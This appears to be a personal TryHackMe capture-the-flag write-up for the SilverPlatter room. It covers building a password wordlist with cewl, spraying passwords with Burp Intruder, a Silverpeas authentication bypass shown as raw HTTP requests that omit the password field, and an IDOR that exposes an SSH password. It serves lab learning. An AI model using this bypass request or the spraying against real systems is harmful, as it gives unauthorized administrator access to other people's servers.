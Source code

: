 # Password Spraying Attacks using BurpSuitePro

I'll be using BurpSuitePro in this instance with intruder 

First Generating a Custom Wordlist with a help of tool named cewl

```bash
ashu㉿kali ~/TryHackMe/SilverPlatter cewl http://silverplatter.thm > custom_passwords.txt

ashu㉿kali ~/TryHackMe/SilverPlatter ls
custom_passwords.txt  vhost-fuzzer.sh

ashu㉿kali ~/TryHackMe/SilverPlatter cat custom_passwords.txt
──────┬──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: custom_passwords.txt
───────┼──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ CeWL 6.2.1 (More Fixes) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
   2   │ the
   3   │ Item
   4   │ and
   5   │ Hack
   6   │ Smarter
   7   │ Security
   8   │ this
   9   │ adipiscing
  10   │ Default
  11   │ for
  12   │ you
  13   │ integer
  14   │ aliquet
  15   │ Tyler
  16   │ Heading
  17   │ Level
  18   │ felis
  19   │ faucibus
  20   │ with
  21   │ our
  22   │ that
  23   │ This
  24   │ accumsan
  25   │ lorem
  26   │ Dolor
  27   │ pulvinar
  28   │ etiam
  29   │ Felis
  30   │ enim
  31   │ feugiat
  32   │ Ante
  33   │ turpis
  34   │ porttitor
  35   │ arcu
  36   │ skills
  37   │ Intro
  38   │ Work
  39   │ About
  40   │ Contact
  41   │ Elements
  42   │ digital
  43   │ Ramsbey
  44   │ basement
  45   │ where
  46   │ hacking
  47   │ try
  48   │ hard
  49   │ tempus
  50   │ ipsum

```

## Using Intruder Tab to spray the passwords on with Intercept On

- By Filtering the response length I think this is the password 

![[Pasted image 20250222194535.png]]

Let's Try Logging In 

![[Pasted image 20250222194756.png]]

Got Logged In 


# Exploiting a vulnerability of Authentication Bypass with a CVE 


## Exploit Title: Silverpeas CRM - Authentication Bypass
https://gist.github.com/ChrisPritchard/4b6d5c70d9329ef116266a6c238dcb2d

Silverpeas up to and including 6.3.4 is vulnerable to a trivial authentication bypass. When authenticating, if the sender omits the password form field, the application will sign you in as the user specified without any challenge.

E.g. the standard login request will look like this:

```
POST /silverpeas/AuthenticationServlet HTTP/2
Host: 212.129.58.88
Content-Length: 28
Origin: https://212.129.58.88
Content-Type: application/x-www-form-urlencoded

Login=SilverAdmin&Password=SilverAdmin&DomainId=0
```

This will fail login (unless they have forgotten to change the default password) and you will be redirected back to the login page with an error code.

But if you remove the password field like this:

```
POST /silverpeas/AuthenticationServlet HTTP/2
Host: 212.129.58.88
Content-Length: 28
Origin: https://212.129.58.88
Content-Type: application/x-www-form-urlencoded

Login=SilverAdmin&DomainId=0
```

Then the login attempt will (usually) succeed and redirect you to the main page, now logged in as a super admin.

The bug works with any valid user, but SilverAdmin is the default super admin.

## Gaining Access Through IDOR

When Logging in to silver peas i found a notification and when i open the notification it open up a link with a parameter ID=5 after changing it to 6 I found this message that contains ssh password

![[Pasted image 20250222233355.png]]

